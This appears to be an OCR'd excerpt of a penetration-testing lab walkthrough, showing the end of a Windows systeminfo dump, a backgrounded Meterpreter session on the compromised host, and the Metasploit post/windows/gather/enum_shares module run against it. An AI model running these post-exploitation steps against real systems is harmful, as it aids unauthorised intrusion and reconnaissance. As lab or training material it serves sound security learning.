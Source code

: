 ```
                           [198]: KB4532940
                           [199]: KB4533004
                           [200]: KB4534134
                           [201]: KB4537482
                           [202]: KB4540725
                           [203]: KB4552933
                           [204]: KB4562253
                           [205]: KB4565635
                           [206]: KB4566425
                           [207]: KB4569753
                           [208]: KB4571703
Network Card(s):           1 NIC(s) Installed.
                           [01]: AWS PV Network Device
                                 Connection Name: Ethernet 2
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.0.16.1
                                 IP address(es)
                                 [01]: 10.0.22.100
                                 [02]: fe80::4c22:3b30:ebf7:d602
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

```
C:\hfs>^C
Terminate channel 1? [y/N]  y
meterpreter > background
[*] Backgrounding session 1...
```

```
msf5 post(windows/gather/enum_patches) > search enum_shares

Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  post/windows/gather/enum_shares                   normal  No     Windows Gather SMB Share Enumeration via Registry


msf5 post(windows/gather/enum_patches) > use post/windows/gather/enum_shares
msf5 post(windows/gather/enum_shares) > show options

Module options (post/windows/gather/enum_shares):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CURRENT  true             yes       Enumerate currently configured shares
   ENTERED  true             yes       Enumerate Recently entered UNC Paths in the Run Dialog
   RECENT   true             yes       Enumerate Recently mapped shares
   SESSION                   yes       The session to run this module on.

msf5 post(windows/gather/enum_shares) > set SESSION 1
SESSION => 1
msf5 post(windows/gather/enum_shares) > run

[*] Running against session 1
[*] The following shares were found:
[*] 	Name: print$
[*] 
[*] Post module execution completed

```